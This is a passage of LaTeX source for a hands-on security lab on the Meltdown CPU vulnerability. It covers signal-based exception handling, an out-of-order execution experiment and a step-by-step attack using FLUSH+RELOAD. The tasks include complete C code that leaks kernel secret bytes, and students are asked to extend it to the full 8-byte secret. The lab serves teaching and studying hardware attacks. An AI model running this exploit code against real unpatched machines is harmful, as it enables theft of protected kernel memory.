handle this exception by itself, the operating system will handle it and terminate the 
program. That is why the program crashes. There are several ways to prevent
programs from crashing by a catastrophic event. 
%With Intel TSX technology,
%exceptions can be suppressed in the first place by making several instruction
%statements atomic. Due to the lack of support of TSX in VirtualBox, even if your CPU has TSX
%feature enabled, our VM cannot benefit from it. Thus, we will not use this technique.
One way is to define our own signal handler in the program to capture
the exceptions raised by catastrophic events. 


Unlike C++ or other high-level languages, C does not provide direct support
for error handling~(also 
known as exception handling), such as the try/catch clause. 
However, we can emulate the try/catch clause using \texttt{sigsetjmp()} and \texttt{siglongjmp()}.
We provide a C program called \texttt{ExceptionHandling.c} in the following 
to demonstrate how
a program can continue to execute even if there is a critical exception, such as memory access
violation. Please run this code, and describe your observations. 


\begin{lstlisting}[caption=\texttt{ExceptionHandling.c}]
static sigjmp_buf jbuf;

static void catch_segv()
{
  // Roll back to the checkpoint set by sigsetjmp().
  siglongjmp(jbuf, 1);                             (*@\ding{192}@*)
}

int main()
{ 
  // The address of our secret data
  unsigned long kernel_data_addr = 0xfb61b000;

  // Register a signal handler
  signal(SIGSEGV, catch_segv);                     (*@\ding{193}@*)

  if (sigsetjmp(jbuf, 1) == 0) {                   (*@\ding{194}@*)
     // A SIGSEGV signal will be raised. 
     char kernel_data = *(char*)kernel_data_addr;  (*@\ding{195}@*)

     // The following statement will not be executed.
     printf("Kernel data at address %lu is: %c\n", 
                    kernel_data_addr, kernel_data);
  }
  else {
     printf("Memory access violation!\n");
  }

  printf("Program continues to execute.\n");
  return 0;
}
\end{lstlisting}



The exception handling mechanism in the above code is quite complicated, so we provide further
explanation in the following:

\begin{itemize}

\item Set up a signal handler: we register a \texttt{SIGSEGV} signal handler in Line \ding{193}, so when
a \texttt{SIGSEGV} signal is raised, the handler function \texttt{catch\_segv()} will be invoked. 

\item Set up a checkpoint: after the signal handler has finished processing the exception, it
needs to let the program continue its execution from particular checkpoint. 
Therefore, we need to define a checkpoint first. This is achieved via
\texttt{sigsetjmp()} in Line \ding{194}: 
\texttt{sigsetjmp(jbuf, 1)} saves the stack context/environment in \texttt{jbuf} 
for later use by \texttt{siglongjmp()};  it returns 0 when the 
checkpoint is set up~\cite{sigsetjmp}. 


\item Roll back to a checkpoint: When \texttt{siglongjmp(jbuf, 1)} is called, the
state saved in the \texttt{jbuf} variable is copied back in the processor and computation starts over
from the return point of the \texttt{sigsetjmp()} function, 
but the returned value of the \texttt{sigsetjmp()} function  
is the second argument of the \texttt{siglongjmp()} function, which is \texttt{1} in our case.
Therefore, after the exception handling, the program continues its execution from the
\texttt{else} branch.  

\item Triggering the exception: The code at Line \ding{195} will 
trigger a \texttt{SIGSEGV} signal due to the memory access violation (user-level programs
cannot access kernel memory).

\end{itemize}



%\item \textbf{Line \ding{194}}: \texttt{sigsetjmp()} returns 0 if returning directly, and non-zero when
%returning from \texttt{siglongjmp()} using the saved context. If the second argument of 
%\texttt{sigsetjmp()} is
%non-zero, the process's current signal mask is saved in \texttt{jbuf} and will be restored if a
%\texttt{siglongjmp()} is later performed with this \texttt{jbuf}. Therefore, when 
%\texttt{sigsetjmp()} is invoked the first time,
%it returns 0 and fills the \texttt{jbuf} structure with the calling environment and signal mask. The
%calling environment represents the state of registers and the point in the code where the
%function was called. In this case, \texttt{SIGSEGV} is captured and 
%\texttt{siglongjmp()} is called, the program
%will roll back to here, with \texttt{ sigsetjmp()}’s return value be 1.
%

%The execution sequence for our program is the following:

%\begin{enumerate}
%\item Set up the \texttt{SIGSEGV} handler (Line \ding{193}).

%\item \texttt{sigsetjmp()} is invoked for the first time; its return value is 0 (Line
%\ding{194}).
%
%\item Access the kernel memory, and a \texttt{SIGSEGV} signal is raised (Line \ding{195}).
%
%\item \texttt{catch\_segv()} is called. \texttt{siglongjmp()} is called and reset the calling
%environment from \texttt{jbuf}. It also sets the return value of
%\texttt{sigsetjmp()} to 1 (Line \ding{192}).
%
%\item Program jumps to Line \ding{194}. This time the if statement is not evaluated to be true.
%
%\item The else branch is executed.
%\end{enumerate}







% *******************************************
% SECTION
% *******************************************
\section{Task 6: Out-of-Order Execution by CPU}


From the previous tasks, we know that if a program tries to read 
kernel memory, the access will fail and an exception will be raised. 
Using the following code as an example, we know that 
Line 3 will raise an exception because the memory at address \texttt{0xfb61b000}
belongs to the kernel. Therefore, the execution will be interrupted at Line 3, and 
Line 4 will never be executed, so the value of 
the \texttt{number} variable will still be 0.

\begin{lstlisting}
1  number = 0;
2  *kernel_address = (char*)0xfb61b000;
3  kernel_data = *kernel_address;
4  number = number + kernel_data;
\end{lstlisting}

The above statement about the code example is true when looking from outside of the CPU. 
However, it is not completely true if we get into the CPU, and look at the execution sequence
at the microarchitectural level. If we do that, we will find out that 
Line 3 will successfully get the kernel data, and Line 4 and subsequent instructions 
will be executed. This is due to an important optimization technique adopted by
modern CPUs. It is called out-of-order execution. 


Instead of executing the instructions strictly in their original order, modern high performance
CPUs allow out-of-order execution to exhaust all of the execution units. Executing instructions
one after another may lead to poor performance and inefficient resources usage, i.e., current
instruction is waiting for previous instruction to complete even though some execution units
are idle~\cite{wiki:outoforder}. With the out-of-order execution feature, CPU can 
run ahead once the required resources are available.


In the code example above, at the microarchitectural level, Line 3 involves two 
operations: load the data (usually into a register), and
check whether the data access is allowed or not. If the data is already in
the CPU cache, the first operation will be quite fast, while the second operation may take a
while. To avoid waiting, the CPU will continue executing Line 4 and subsequent instructions,
while conducting the access check in parallel. This is out-of-order execution. The results of
the execution will not be committed before the access check finishes. In our case,
the check fails, so all the results caused by the out-of-order execution will be discarded like
it has never happened.  That is why from outside we do not see that Line 4 was executed.  
Figure~\ref{meltdown:fig:outoforder} illustrates the out-of-order execution 
caused by Line 3 of the sample code. 



\begin{figure}[htb]
\centering

\includegraphics[width=0.75\textwidth]{\meltdownFigs/meltdown.pdf}
\caption{Out-of-order execution inside CPU}
\label{meltdown:fig:outoforder}
\end{figure}


Intel and several CPU makers made a severe mistake in the design of the out-of-order execution. 
They wipe out the effects of the out-of-order execution on registers and memory
if such an execution is not supposed to happen, so the execution does not lead to 
any visible effect. However, they forgot one thing, the effect on CPU caches.  
During the out-of-order execution, the referenced memory is fetched into a register and is 
also stored in the cache. If the out-of-order execution has to be discarded, 
the cache caused by such an execution should also be discarded. Unfortunately, this is 
not the case in most CPUs. Therefore, it creates an observable effect. 
Using the side-channel technique described in Tasks 1 and 2, we 
can observe such an effect. The Meltdown attack cleverly uses this 
observable effect to find out secret values 
inside the kernel memory. 


In this task, we use an experiment to observe the effect caused by 
an out-of-order execution. The code for this experiment is shown below. 
In the code, Line \ding{192} will cause an exception, so Line \ding{193} will
not be executed. However, due to the out-of-order execution, Line \ding{193} is 
executed by the 
CPU, but the result will eventually be discarded. However, because of the execution,
\texttt{array[7 * 4096 + DELTA]} will now be cached by CPU. We use the side-channel code 
implemented in Tasks 1 and 2 to check whether we can observe the effect. 
Please download the code from the lab website, run it and describe your observations. 
In particular, please provide an evidence to show that Line \ding{193} is 
actually executed. 


\begin{lstlisting}[caption=\texttt{MeltdownExperiment.c}, label=meltdown:list:outoforder]
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     (*@\ding{192}@*)
  array[7 * 4096 + DELTA] += 1;               (*@\ding{193}@*)
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      meltdown(0xfb61b000);                   (*@\ding{194}@*)
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
\end{lstlisting}


It should be noted that the address in Line \ding{194} should be replaced by
the actual address that you found from the kernel module. Compile and 
run the code (see Section~\ref{sidechannel:sec:compilation} for the instructions
on the compilation). Document and explain your observations. 
%What \texttt{"taskset 0x1"} does is basically pinning this program to only
%one logical core to reduce cache miss, because L1 cache is proprietary to each core and we
%do not want our program to be cached in a different L1 cache.

%\begin{lstlisting}
% $ gcc -march=native MeltdownExperiment.c
%\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Task 7: The Basic Meltdown Attack}


The out-of-order execution creates an opportunity for us to read data from 
the kernel memory, and then use the data to conduct operations that can cause
observable effects on the CPU cache. How far a CPU can go in 
the out-of-order execution depends on
how slow the access check, which is done in parallel, is performed. 
This is a typical race condition situation. In this task, we will exploit this race condition
to steal a secret from the kernel. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.1: A Naive Approach}

In the previous task, we can get \texttt{array[7 * 4096 + DELTA]} into the CPU cache.
Although we can observe that effect, we do not get any useful information about 
the secret. If instead of using \texttt{array[7 * 4096 + DELTA]}, we 
access \texttt{array[kernel\_data * 4096 + DELTA]}, which brings it
into the CPU cache. 
Using the FLUSH+RELOAD technique, we check the access time of
\texttt{array[i*4096 + DELTA]} for \texttt{i = 0, $\ldots$, 255}. 
If we find out that only
\texttt{array[k*4096 + DELTA]} is in the cache, we can infer that 
the value of the \texttt{kernel\_data} is \texttt{k}.  
Please try this approach by modifying \texttt{MeltdownExperiment.c} shown in
Listing~\ref{meltdown:list:outoforder}. Please describe your observations.
Even if your attack is not successful, you should note down your observation, and continue on
to Task 7.2, which is intended to improve the attack. 


%Meltdown exploits a race condition, which occurs between memory access and permission checking
%during instruction processing, as you can see in Figure 4.
%To successfully launch the meltdown attack, the following steps will be taken:

%\begin{enumerate}
%\item User program tries to access the secret data in kernel memory by its address.
%
%\item CPU will load secret data into register while waiting for security check.
%
%\item Program continues to execute because of the out-of-order execution, but the results will
%never be committed because an exception will be raised in previous instruction.
%
%\item During out-of-order execution, the program brings the secret data into cache.
%
%\item CPU is done with the security check. Since we access a prohibited memory location, an exception is raised.
%
%\item The exception should be handled properly to prevent the program from crashing.
%
%\item All the memory and register contents during out-of-order execution won’t be committed.
%But the cache content is not evicted.
%
%\item Cache side-channel attack (Flush+Reload) can be leveraged to steal the secret data from the cache.
%\end{enumerate}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.2: Improve the Attack by Getting the Secret Data Cached}


Meltdown is a race condition vulnerability, which involves the racing between the out-of-order
execution and the access check. The faster the out-of-order execution is, the more instructions we 
can execute, and the more likely we can create an observable effect that can help us get the
secret. Let us look see how we can make the out-of-order execution faster. 

The first step of the out-of-order execution in our code involves loading the kernel data into 
a register. At the same time, the security check on such an access is performed.  
If the data loading is slower than security check, i.e., when the security check is done, 
the kernel data is still on its way from the memory to the register, the out-of-order execution
will be immediately interrupted and discarded, because the access check fails. Our attack will fail
as well. 

If the kernel data is already in the CPU cache, loading the kernel data into a 
register will be much faster, and we may be able to get to our critical 
instruction, the one that loads the array, before the failed check 
aborts our out-of-order execution. In practice, if a kernel data item is not cached, using 
Meltdown to steal the  data will be difficult. However, as it has been 
demonstrated, Meltdown attacks can still be successful, but  
they require high-performance CPU and DRAM~\cite{meltdowdemo}. 


In this lab, we will get the kernel secret data cached before launching the attack. 
In the kernel module shown in Listing~\ref{meltdown:list:kernelmodule}, we let user-level
program to invoke a function inside the kernel module. This function will access the secret
data without leaking it to the user-level program. The side effect of this access is that the
secret data is now in the CPU cache. We can add the  
code to our attack program used in Task 7.1, before triggering the out-of-order execution.
Please run your modified attack program and see whether your success rate is improved or not.


\begin{lstlisting}
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
    perror("open");
    return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 7.3: Using Assembly Code to Trigger Meltdown}

You probably still cannot succeed in the previous task, even with secret data being 
cached by CPU. Let us do one more improvement by adding a few lines of
assembly instructions before the kernel memory access. See the code in
\texttt{meltdown\_asm()} below.  The code 
basically do a loop for 400 times (see Line \ding{192}); inside the loop,
it simply add a number \texttt{0x141} to the \texttt{eax} register.  
This code basically does useless computations, but 
according to a post discussion, these extra lines of code
``give the algorithmic units something to chew while
memory access is being speculated''~\cite{boldin}. 
This is an important trick to increase the possibility of success. 
%The reason why this code is written in assembly is that the code only
%accesses registers not memory. 


\begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}


Please call the \texttt{meltdown\_asm()} function, 
instead of the original \texttt{meltdown()} 
function. Describe your observations. Increase and decrease the number of
loops, and report your results. 




% *******************************************
% SECTION
% ******************************************* 
\section{Task 8: Make the Attack More Practical}

Even with the optimization in the previous task, we may still not be able 
get the secret data every time: sometimes, our attack produces the correct 
secret value, but sometimes, our attack fails to 
identify any value or identifies a wrong value. 
To improve the accuracy, we can use a statistical technique.
The idea is create a score array of size 256, one element for each possible 
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add 1 to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with 
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.




\begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


% *******************************************
% SECTION
% *******************************************
\section{Submission}

\seedsubmission




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\bibliographystyle{plain}
\def\baselinestretch{1}
\bibliography{BibMeltdownSpectre}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


